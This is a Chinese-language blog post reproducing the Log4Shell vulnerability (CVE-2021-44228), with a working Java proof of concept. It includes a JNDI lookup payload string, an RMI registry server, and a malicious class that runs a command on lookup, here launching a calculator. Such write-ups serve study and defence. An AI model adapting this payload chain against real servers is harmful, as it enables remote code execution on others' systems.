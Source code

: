 ```yaml
---
title: "一个只会做开发的小白的 Log4j RCE 漏洞复现过程"
categories: [ "漏洞", "RCE" ]
tags: [ "RCE", "Log4j" ]
draft: false
slug: "log4j-rce"
date: "2021-12-13 17:25:00"
---
```



## 前言

CVE编号：**CVE-2021-44228**



这次的 RCE 漏洞影响确实大，堪称核武器级别，因为其复现极其简单，发出没多久几乎整个 IT 圈都知道了。我一个搞开发的，以往也就关注一些前沿的新技术消息，这次来关注一下安全圈的事件。



Log4j 是 Apache 的一款日志库，用途范围极其广泛，Spring 等框架均包含。



受影响的组件包含但不限于：

- Apache Struts2
- Apache Solr
- Apache Druid
- Apache Flink
- Apache Flume
- Apache Dubbo
- Apache Kafka
- Spring-boot-starter-log4j2
- ElasticSearch



## RCE 过程整理

影响版本：Apache Log4j Core <= 2.14.1



本文的代码仓库：[https://github.com/taurusxin/CVE-2021-44228](https://github.com/taurusxin/CVE-2021-44228)

### 复现

若某一服务中包含有 使用 Log4j 对用户输入内容的日志记录，那么便可触发 RCE

```java
package me.xingez;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jTest {
    private static final Logger LOGGER = LogManager.getLogger();

    public static void main(String[] args) {

        String testPayload = "${jndi:rmi://127.0.0.1/evil}";

        LOGGER.error(testPayload);

    }
}
```

用户构造恶意 jdni 服务，将含有 `${jndi:xxx}` 的字符串提交到后端，记录日志时便可执行 lookup



![计算器成功弹出](https://cdn.rhyland.cn/hugo/2021-12-13/calc.png)



其中我使用的 jndi 服务为 RMI registry，代码如下



`RmiServer.java`

```java
package me.xingez.rmi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RmiServer {
    public static void main(String[] args) {

        try {
          	// 注册 registry 监听端口
            LocateRegistry.createRegistry(1099);
            Registry registry = LocateRegistry.getRegistry();

            System.out.println("Create RMI registry on port 1099...");
          
          	// 实例化恶意代码类的引用
            Reference reference = new Reference("me.xingez.rmi.EvilCode",
                    "me.xingez.rmi.EvilCode", null);
          
          	// 绑定服务为 evil
            ReferenceWrapper wrapper = new ReferenceWrapper(reference);
            registry.bind("evil", wrapper);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```



`EvilCode.java`

```java
package me.xingez.rmi;

import java.io.IOException;

public class EvilCode {
  	// 当 lookup 时，直接执行该类的静态块
    static {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

声明：以上所有代码块均为安全测试时使用，切勿用于非法用途，使用此代码导致的后果与本人无关。

## 结语

这个漏洞触发简单到用发送一条消息的办法就可以做到，因为我是一名 MC 玩家兼 MC 服务器服主，所以这个问题对我来说是不可忽视的，好在我们服务器现在运行的是最新的 1.18，使用 Java 17，不存在此问题。

最后祝愿这几天修代码的安全工程师、开发者都保重身体健康！